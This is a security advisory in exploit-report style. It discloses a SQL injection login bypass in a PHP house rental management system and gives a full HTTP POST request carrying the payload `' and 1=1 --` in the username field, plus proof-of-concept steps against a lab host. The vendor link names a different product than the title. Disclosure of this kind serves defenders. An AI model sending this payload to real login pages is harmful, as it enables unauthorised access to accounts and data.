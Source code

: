 # Best house rental management system project in php admin_class.php SQL Injection vulnerability

Exploit Title: Best house rental management system project in php admin_class.php SQL Injection vulnerability  
Exploit Author: webraybtl@webray.com.cn inc  
Vendor Homepage: https://www.sourcecodester.com/php/17375/best-courier-management-system-project-php.html  
Software Link: https://www.sourcecodester.com/download-code?nid=17375&title=Best+house+rental+management+system+project+in+php+  
Version: Best house rental management system project in php v1.0

## Description

The reason for the SQL injection vulnerability is that the website application does not verify the validity of the data submitted by the user to the server (type, length, business parameter validity, etc.), and does not effectively filter the data input by the user with special characters , so that the user's input is directly brought into the database for execution, which exceeds the expected result of the original design of the SQL statement, resulting in a SQL injection vulnerability. Best house rental management system project in php does not filter the content correctly at the "admin_class.php" parameter, resulting in the generation of SQL injection.

#### Payload used:

```plaintext
POST /ajax.php?action=login HTTP/1.1
Host: 192.168.56.128:8080
Priority: u=0
X-Requested-With: XMLHttpRequest
Origin: http://192.168.56.128:8080
Cookie: PHPSESSID=l9bepm47dqojg3l0o826l4kcd0
Accept: */*
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:130.0) Gecko/20100101 Firefox/130.0
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Referer: http://192.168.56.128:8080/login.php
Content-Length: 66

username=mayuri.infospace%40gmail.com'+and+1%3D1+--%20&password=admin
```

#### Proof of Concept

1. Visit the home page and enter payload in the username input box. Enter any value for password.

> mayuri.infospace@gmail.com' and 1=1 --

​![image](assets/image-20240918173845-3vf6s8y.png)​

2.Click the login button to successfully enter the homepage.

​![image](assets/image-20240918173823-0lslvs1.png)​

Similarly, by sending a post request, you will see the login success code returned.

​![image](assets/image-20240918174224-r4n08af.png)​

In the admin_class.php source code, you can see that when executing SQL query statements, unfiltered username parameters are directly spliced, resulting in SQL injection vulnerabilities.

​![image](assets/image-20240918174719-aupleka.png)​

‍
